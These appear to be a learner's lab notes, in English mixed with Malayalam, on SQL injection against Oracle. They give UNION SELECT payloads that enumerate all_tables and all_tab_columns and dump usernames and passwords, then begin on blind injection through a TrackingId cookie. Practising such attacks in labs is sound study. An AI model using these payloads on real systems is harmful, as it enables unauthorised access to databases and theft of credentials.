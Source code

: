 --------------------------------------------------------------
#### listing the contents on oracle database:
-->On Oracle, you can obtain the same information with slightly different queries.
-->You can list tables by querying all_tables:
       -->SELECT * FROM all_tables
-->And you can list columns by querying all_tab_columns:
     -->SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
	 
	   lab-4.b(practica-Listing the contents on database oracle):
-->first catagory=parameteril '  itt nokuka apol internal server error enno mato kanam apo manasilakuka sql injection vulnerable aanen ok.
-->ini ethra column und enn nokanam:
     -->'+ORDER+BY+2--                         (randenam und)
-->rand column intem type nokanam:
       -->'+UNION+SELECT+'a','a'+FROM+DUAL--     (randilum text aakum)
-->ini database ethan enn nokanam.so mumb chythapole version nokanam.
-->ini output the list of tables in the database:
          so google il poi oracle column names nokuka.athil kanuna name edukuka(ie table_name).athupole cheatsheetil nokiya kanam all_tables enn kodukanam.
         -->'+UNION+SELECT+table_name,NULL+FROM+all_tables--
		    ipol namuk table name kandethi.ini column name kandethanam.namuk vendath users ennath varuna table name aan ok.
-->ini output the column names of the users table:
  -->google oracle column names
>'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_WALIWF'--(cheatsheet il ninum ith kanan patum)
  -->ivide namuk rand column kitum
-->ini output the list of usernames and passwords:
>'+UNION+SELECT+PASSWORD_XXGRFT,USERNAME_SNIABH+FROM+USERS_WALIWF--
   -->ivide namuk admin,password kitum
   
   -----------------------------------------------------------------
   
                       Lab-5(## Blind SQL injection vulnerabilities)
			                 ===================================
		
-->The application does not return the results of the SQL query or the details of any database errors within its responses.
-->Blind vulnerabilities can still be exploited to access unauthorized data, but the techniques involved are generally more complicated and difficult to perform.
-->Blind SQL injection arises when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
-->ivide response onum kanan pattathath kond thanne UNION type attack onum nadakila.

####  Exploiting blind SQL injection by triggering conditional responses:
  oru example ilude padikam
-->oru app cokkies use chyth trac chyunu
         -->Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
-->When a request containing a `TrackingId` cookie is processed:
    -->SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'    ingane aayirikum query undavuka.
-->nammal cookie header il cookie k shesham =='+and+1=1--== enn itt test chyth nokuka.(= enath chlepo url encode chyanamayirikum)
       